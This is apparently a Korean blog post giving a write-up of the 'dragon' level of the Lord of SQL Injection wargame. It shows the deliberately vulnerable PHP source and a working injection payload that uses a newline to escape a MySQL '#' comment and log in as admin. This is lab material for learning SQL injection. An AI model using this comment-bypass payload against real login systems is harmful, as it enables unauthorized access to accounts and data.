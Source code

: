 ```yaml
---
layout: post
title: Lord of SQL Injection - dragon
comments: true
---
```

{% highlight PHP %}
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
{% endhighlight %}

LOS 문제를 풀면서 제일 애먹었다고 말할 수 있는 문제이다..

무슨 guest로 로그인을 할 수 밖에 없게 만들라고 한건지.. 

기존에 발견했던 문제를 발생시키는 문자열은 NULL(\x00)과 New Line(\x0a)이다.

한동안 여기서 막혀있다가 다른 개발을 하다가 우연찮게 PHPMyAdmin에서 발견한 것이다...

만약 *pw*가 *%0a11111*가 되면 어떻게 쿼리가 될까?
{% highlight MySQL %}
SELECT id from prob_dragon where id='guest'# and pw='
11111'
{% endhighlight %}

줄바꿈했을 때의 부분인 **11111'**가 주석처리가 안되어 있었다..

이와 같은 속성(?)으로 줄바꿈 한 다음에 admin을 가져오도록 하면 문제가 해결된다.

{% highlight text %}
and%201=0%20or%20id='admin'%23
{% endhighlight %}

ps. SQL을 야매로 공부해서 그런지 저런 속성을 몰랐었다;;...